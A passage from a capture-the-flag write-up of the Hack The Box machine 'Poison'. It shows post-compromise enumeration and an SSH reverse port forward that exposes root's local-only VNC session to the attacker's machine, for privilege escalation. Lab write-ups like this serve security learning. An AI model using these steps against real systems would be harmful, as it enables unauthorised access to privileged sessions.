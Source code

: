 
```
root@kali:~/htb/poison# file secret
secret: Non-ISO extended-ASCII text, with no line terminators
root@kali:~/htb/poison# cat secret
[|Ֆz!
```

However there's just garbage in the file contents itself. 

Let's enum the box some more.


After checking running processes with `ps aux` we see the following entry.

```
root    529   0.0  0.9  23620  8996 v0- I    19:17     0:00.22 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geo
root    540   0.0  0.7  67220  7060 v0- I    19:17     0:00.07 xterm -geometry 80x24+10+10 -ls -title X Desktop
```

And we also see some ports listening locally.

```
charix@Poison:~ % netstat -an
Active Internet connections (including servers)
Proto Recv-Q Send-Q Local Address          Foreign Address        (state)
tcp4       0      0 10.10.10.84.22         10.10.14.8.44976       ESTABLISHED
tcp4       0      0 127.0.0.1.25           *.*                    LISTEN
tcp4       0      0 *.80                   *.*                    LISTEN
tcp6       0      0 *.80                   *.*                    LISTEN
tcp4       0      0 *.22                   *.*                    LISTEN
tcp6       0      0 *.22                   *.*                    LISTEN
tcp4       0      0 127.0.0.1.5801         *.*                    LISTEN
tcp4       0      0 127.0.0.1.5901         *.*                    LISTEN
udp4       0      0 *.514                  *.*                    
udp6       0      0 *.514                  *.* 
```

Port 5801 and 5901 are normally used by VNC, which matches with the running VNC session we see in processes. Let's port forward this over to our attacking machine so we have access (make sure you start SSH on your attacking box!).

```
charix@Poison:~ % ssh -l root -R 5801:127.0.0.1:5901 10.10.14.8
root@10.10.14.8's password: 

The programs included with the Kali GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Kali GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
root@kali:~#
```

If we check our listening connections on kali we see the port forward was successful.

